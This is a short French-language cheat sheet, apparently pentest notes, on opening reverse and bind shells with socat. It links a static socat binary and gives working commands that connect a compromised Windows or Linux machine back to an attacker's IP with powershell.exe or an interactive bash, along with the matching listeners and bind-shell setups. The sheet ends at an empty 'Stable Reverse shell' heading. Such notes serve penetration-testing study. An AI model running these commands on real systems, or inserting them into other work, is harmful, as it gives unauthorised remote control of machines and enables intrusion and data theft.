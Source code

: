 
## __Reverse shell__

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat 
Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip: ~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous linux :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine Windows

```shell
PS C:\Users\user> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### 2- Connection -- Notre machine

```shell
user@ip: ~$ socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## __Stable Reverse shell__

